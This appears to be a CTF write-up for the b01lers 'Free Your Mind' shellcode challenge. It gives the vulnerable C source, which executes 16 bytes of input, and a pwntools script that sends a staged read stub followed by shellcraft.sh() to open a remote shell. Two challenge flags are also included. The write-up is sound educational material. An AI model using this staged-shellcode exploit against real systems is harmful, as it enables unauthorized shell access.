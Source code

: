FLAG: flag{Th3_BuNNy_wabbit_l3d_y0u_h3r3_4_a_reason}

<h1 id="FreeYourMind">Free Your Mind</h1>

### Description:

Next up, hack the matrix again, but this time, insert your own code.
nc chal.ctf.b01lers.com 1007

### Solution:

challenge source code:



{% highlight C %}
#include <stdio.h>
#include <unistd.h>

char shellcode[16];

int main() {
    char binsh[8] = "/bin/sh";

    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    printf("I'm trying to free your mind, Neo. But I can only show you the door. You're the one that has to walk through it.\n");
    read(0, shellcode, 16);

    ((void (*)()) (shellcode))();
}
    
{% endhighlight %}



this is a shellcode challenge I am the second people to solve this challenge, 
we can only write 16byte shellcode to the `.bss`. in order to send our full shellcode we can 
write a shellcode that can read from stdin and after that we send our shellcode to the last part of shellcode 

{% highlight python %}
from pwn import * 
#r = process("./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d")
r = remote("chal.ctf.b01lers.com", 1007)
binsh = 0x4011b3
shellcode = ''' mov rsi, 0x40409e
                mov edx, 100
                syscall
'''
r.sendline(asm(shellcode))
r.sendline(asm(shellcraft.sh()))
r.interactive()
{% endhighlight %}

FLAG: flag{cust0m_sh3llc0d1ng_c4n_b33_c00l}
